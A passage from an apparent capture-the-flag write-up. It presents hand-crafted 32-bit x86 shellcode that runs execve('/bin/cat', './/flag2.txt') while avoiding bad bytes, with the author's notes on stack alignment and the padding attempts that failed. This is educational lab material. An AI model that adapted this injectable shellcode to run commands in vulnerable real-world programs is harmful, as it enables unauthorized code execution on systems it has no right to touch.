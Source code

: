 ```bash

echo .

# Close the socket
exec 3<&-
```
I couldn't get this to work (after playing around with it for a while), as the attempt to access the `flagfile` variable seems to cause a segmentation fault. This isn't unexpected, so I went back to just using `cat flag2.txt` as per previous challenges. The assembly code was:
```asm
# /bin/cat .//flag2.txt test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x7461632f            ; Push the executable string (/bin/cat) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command

         push eax                   ; Null terminate the argument string
         push 0x7478742e            ; Push the argument (.//flag2.txt ) to the stack
         push 0x3267616c            ; Use .// to fit to a 32-bit stack
         push 0x662f2f2e
         mov esi, esp               ; Save the pointer in ESI
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push esi                   ; Push the pointer to the argument (.//flag2.txt)
         push ebx                   ; Push the pointer to the command (/bin/cat)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x08               ; Use AL so we don't need zeros set to 0x08 to avoid
                                    ; 0x0b in final out put
         inc al                     ; Increment al to 0x09
         inc al                     ; 0x0a
         inc al                     ; 0x0b - this is what we need for execve()
         int 0x80
        
         mov al, 1                   ; Now exit
         xor ebx, ebx                ; with status 0
         int 0x80
```
> Note: This uses `.//flag2.txt` rather than just `flag2.txt` as we need to align to the 32-bit stack. This means the values pushed to the stack have to be in sets of 4 bytes, so `flag2.txt` would leave a single byte.
>
> First I tried `fla*.txt` as I thought it might list all flag files, but this doesn't work because we're running through `execve()` and not in a shell, so no wildcard substitution happens.
>
> Then I tried to pad with three spaces to give `flag2.txt   `, but the `read()` in the code ate two of the spaces and so messed up the byte values, changing the code.
>
> Next I tried with the relative path and a space at the end to pad - `./flag2.txt `, but `execve()` treated the space as part of the filename.
>
> Finally, I tried the `.//flag2.txt` which worked, but not before we had another issue.
